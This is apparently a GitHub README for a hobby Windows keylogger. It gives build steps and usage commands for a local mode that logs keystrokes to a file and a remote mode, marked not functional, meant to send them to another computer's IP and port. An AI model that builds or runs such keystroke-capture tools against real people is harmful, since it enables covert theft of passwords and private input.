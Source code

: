 BUILD AND RUN FOR WINDOWS ONLY

# Installation

run command make

# Dependencies

[MinGW](http://www.mingw.org) for g++ and command make

# Usage

This program propose 2 types of keylogger

## Local

Store entry into file on the current computer

Example

```
  ./bin/main.exe -l D:\\test.txt
```

## Remote (Not functionnal)

Send entry to another computer

Example

```
  ./bin/main.exe -r 192.168.1.16 7777
```

TODO

## Parameters

### Optional
